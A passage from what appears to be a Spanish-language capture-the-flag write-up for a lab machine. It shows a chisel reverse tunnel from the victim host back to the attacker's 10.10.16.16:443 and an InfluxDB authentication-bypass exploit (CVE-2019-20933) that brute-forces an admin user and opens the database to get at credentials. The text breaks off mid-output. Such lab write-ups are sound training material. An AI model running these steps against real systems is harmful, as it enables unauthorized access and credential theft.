 Después de darles `permisos` de `ejecución` a ambos binarios con `chmod +x`, `ejecutamos` este `comando` nuestro equipo

```
# ./chisel_1.9.1_linux_amd64 server --port 443 --reverse 
2024/07/17 21:55:53 server: Reverse tunnelling enabled
2024/07/17 21:55:53 server: Fingerprint ZdwBZlZNq4AcF+ZwhB4MIYCndcmfVJy8ffYfpO/DKms=
2024/07/17 21:55:53 server: Listening on http://0.0.0.0:443
2024/07/17 21:59:22 server: session#1: tun: proxy#R:8086=>8086: Listening
```

Desde la máquina víctima `ejecutamos` el siguiente `comando`

```
patrick@devzat:~$ ./chisel_1.9.1_linux_amd64 client 10.10.16.16:443 R:8086:127.0.0.1:8086
2024/07/17 20:00:42 client: Connecting to ws://10.10.16.16:443
2024/07/17 20:00:43 client: Connected (Latency 74.927617ms)
```

`Ejecutamos` el `exploit` de `InfluxDB`, lo que nos permite `conectarnos` a la `base de datos` y obtener las `credenciales` de varios usuarios

```
# python3 __main__.py

  _____        __ _            _____  ____    ______            _       _ _   
 |_   _|      / _| |          |  __ \|  _ \  |  ____|          | |     (_) |  
   | |  _ __ | |_| |_   ___  __ |  | | |_) | | |__  __  ___ __ | | ___  _| |_ 
   | | | '_ \|  _| | | | \ \/ / |  | |  _ <  |  __| \ \/ / '_ \| |/ _ \| | __|
  _| |_| | | | | | | |_| |>  <| |__| | |_) | | |____ >  <| |_) | | (_) | | |_ 
 |_____|_| |_|_| |_|\__,_/_/\_\_____/|____/  |______/_/\_\ .__/|_|\___/|_|\__|
                                                         | |                  
                                                         |_|                  
 - using CVE-2019-20933

Host (default: localhost): 
Port (default: 8086): 
Username <OR> path to username file (default: users.txt): 

Bruteforcing usernames ...
[v] admin

Host vulnerable !!!

Databases:

1) devzat
2) _internal

.quit to exit
[admin@127.0.0.1] Database: 1

Starting InfluxDB shell - .back to go back
[admin@127.0.0.1/devzat] $ SHOW MEASUREMENTS
{
    "results": [
        {
            "series": [
                {
                    "columns": [
                        "name"
                    ],
                    "name": "measurements",
                    "values": [
                        [
                            "user"
                        ]
```